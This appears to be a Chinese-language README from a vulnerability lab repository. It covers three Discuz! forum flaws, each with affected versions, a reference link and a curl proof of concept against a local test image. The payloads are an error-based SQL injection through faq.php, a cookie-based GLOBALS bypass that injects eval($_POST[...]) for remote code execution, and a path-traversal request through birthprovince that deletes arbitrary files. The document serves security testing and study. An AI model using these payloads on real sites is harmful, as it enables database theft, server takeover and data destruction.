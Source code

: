 ## faq.php gids 报错注入

测试镜像

* src/discuz/7.2/

影响版本 

* <= 7.2

参考链接

* [Discuz!7.2 faq.php文件SQL注入漏洞分析及利用实战](http://blog.51cto.com/simeon/1440000)

Poc

```
curl -g '127.0.0.1/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=%29%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28user%28%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23'
```

## Discuz! 6.x/7.x 全局变量防御绕过漏洞

测试镜像

* src/discuz/7.2/

影响版本

* 6.X
* 7.X

参考链接

* [Discuz! 6.x/7.x 全局变量防御绕过导致命令执行](https://www.secpulse.com/archives/2338.html)

Poc - 替换帖子为正确地址

```
curl '127.0.0.1/viewthread.php?tid=13&extra=page%3D1' -H 'Cookie: GLOBALS[_DCACHE][smilies][searcharray] = /.*/eui; GLOBALS[_DCACHE][smilies][replacearray] = eval%28%24_POST%5BMH%5D%29%3B' -d 'MH=die(md5(1));'
```

## birthprovince 任意文件删除

测试镜像

* src/discuz/x3.2/

影响版本 

* <= X3.2

参考链接

* [Discuz!X前台任意文件删除漏洞重现及分析](http://www.freebuf.com/vuls/149904.html)

Poc

```
设置要删除的文件
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -d 'birthprovince=../../../hello.txt&profilesubmit=1&formhash=...' -H 'Cookie: ...''

触发漏洞
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -F 'profilesubmit=1' -F 'formhash=...' -F birthprovince=@1.jpg -H 'Cookie: ...'
```



